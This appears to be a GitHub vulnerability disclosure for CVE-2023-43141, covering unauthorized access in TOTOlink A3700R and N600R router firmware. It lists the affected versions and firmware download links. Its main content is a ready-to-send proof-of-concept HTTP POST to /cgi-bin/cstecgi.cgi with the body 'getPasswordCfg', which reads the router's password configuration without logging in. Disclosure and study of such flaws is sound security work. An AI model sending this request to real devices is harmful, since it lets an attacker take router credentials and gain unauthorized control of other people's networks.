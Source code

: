 

# CVE-2023-43141

# TOTOlink A3700R(V9.1.2u.6134_B20201202),Version:N600R(V4.3.0cu.7647_B20210106) have unauthorized access vulnerabilities.

# Description

---

The attacker can gain unauthorized access to the interface, read configuration file information, and obtain access to the backend as well as other system services with open permissions.

# Firmware information

---

- Manufacturer's address: http://totolink.net/
- Firmware download address:(A3700R): https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/207/ids/36.html
- Firmware download address:(N600R): https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/160/ids/36.html

# Affected version

---

Version: A3700R(V9.1.2u.6134_B20201202)

![image-20230909144211545](https://blueandwhite.oss-cn-beijing.aliyuncs.com/blog/cve/image-20230909144211545.png)

Version:N600R(V4.3.0cu.7647_B20210106)

![image-20230909143902919](https://blueandwhite.oss-cn-beijing.aliyuncs.com/blog/cve/image-20230909143902919.png)

# Vulnerability details

---

POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.50.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://192.168.50.129
Connection: close
Referer: http://192.168.50.129/login.html

{"topicurl":"getPasswordCfg"}
```



![image-20230909142956661](https://blueandwhite.oss-cn-beijing.aliyuncs.com/blog/cve/image-20230909142956661.png)

